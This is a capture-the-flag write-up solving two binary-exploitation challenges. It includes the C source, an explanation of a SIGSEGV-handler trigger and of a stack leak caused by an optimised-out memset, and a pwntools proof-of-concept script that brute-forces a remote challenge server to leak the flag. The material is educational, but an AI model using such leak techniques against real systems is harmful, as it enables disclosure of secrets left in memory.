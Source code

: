 # IEREA CTF 2025


## Challenges: Length Calculator & Stdio_studio
**Total Points:** 288 \
**Category:** Pwn

---

## TL;DR

[These challenges are about the importance of handling edge cases and various input signals.]

---

## Length Calculator:
- **chal** : ELF binary.
- **chal.c** : source file

```
// gcc chal.c -o chal

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <sys/mman.h>

void win(int sig) {
  puts("Well done!");
  system("cat ./flag*");
  exit(0);
}

int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);

  while (1) {
    unsigned int size = 100;
    
    printf("Enter size: ");
    scanf("%u%*c", &size);
    
    char *buf = mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (!buf) {
      puts("Too large!");
      exit(1);
    }
    
    printf("Input: ");
    fgets(buf, size, stdin);
    buf[strcspn(buf, "\n")] = '\0';
    
    printf("Your string length: %d\n", strlen(buf));
  }
}
```


From the source code, we can that a `win()` function is given, and in order to call it, a SIGSEGV signal must be triggered: `signal(SIGSEGV, win);`

So, by simply giving `0` as size, the instruction `buf[strcspn(buf, "\n")] = '\0'; ` causes a SIGSEGV because `buf` has size 0, it tries to write `\0` into `buf[strcspn(buf, "\n")]`. 

![pOc](https://github.com/MohandAcherir/Writeups/blob/main/IEREA/Screenshot%20from%202025-06-22%2001-01-28.png)


## Stdio_studio:
- **chal** : ELF binary.
- **chal.c** : source file

Here's `chal.c`:

```
// gcc chal.c -o chal -O3

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void load_flag() {
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
}

void echo(void) {
  unsigned int size;
  char *buf;

  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
}

int main() {
  setbuf(stdout, NULL);

  puts("1. Load flag");
  puts("2. Echo");

  while (1) {
    int cmd;

    printf("Enter command: ");

    scanf("%d%*c", &cmd);

    if (cmd == 1) load_flag();
    else if (cmd == 2) echo();
    else {
      puts("Invalid command :(");
      return 0;
    }
  }
}
```
First off, notice that the binary is compiled with the command `gcc chal.c -o chal -O3`, and keep it for later.

We've got 3 functions, `main()` and `echo()` and `load_flag()`.\
The main function queries us to either tap 1 to load the flag into memory, or 2 to read the stack.

### Analysis:
Let's start with `echo()`:
```
  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
  ```

Basically, this function asks for a size from the user, and then uses it to allocate stack memory with `alloca()`, and reads from stdin and displays the content of the buffer(...and beyond). \
**Note**: Alloca(size) is equivalent to a simple `sub rsp, sz`; so it's not like a heap allocation.

Let's move on to `load_flag()`:
```
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
```

This function reads the flag from *flag.txt*, stores it in a buffer, and then seemingly clearing it up at the end.

But wait, remember that the binary is compiled with the `-O3` option.\
The -O3 option in GCC enables the highest level of standard optimization. It includes all optimizations from -O2 plus additional optimizations. So in a nutshell, the line `memset(flag, 0, 128);` is opitimized out, hence, the flag still lives in memory.


### Exploitation strategy:
- Since calling `echo()`after `load_function()`, makes its stack frame live in - roughly - the same exact addresses as the latter, we can print the flag by iterating through 1 to 111 (for example) and try to make our input contiguous to the flag bytes, so that printf catches it and prints along with the data supplied.


**PoC:**

```

from pwn import *


for i in range(20, 111):
    #p = process('./chal')
    p = remote('35.187.219.36', 33335)
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'2')
    p.recv()
    p.sendline(str(i).encode())
    p.recv()
    p.shutdown('send')
    res = p.recvuntil(b"Enter command: ")
    if b'IERAE{' in res:
        print(res)

    p.close()

```

![pOc](https://github.com/MohandAcherir/Writeups/blob/main/IEREA/pics/Screenshot%20from%202025-06-22%2000-58-08.png)
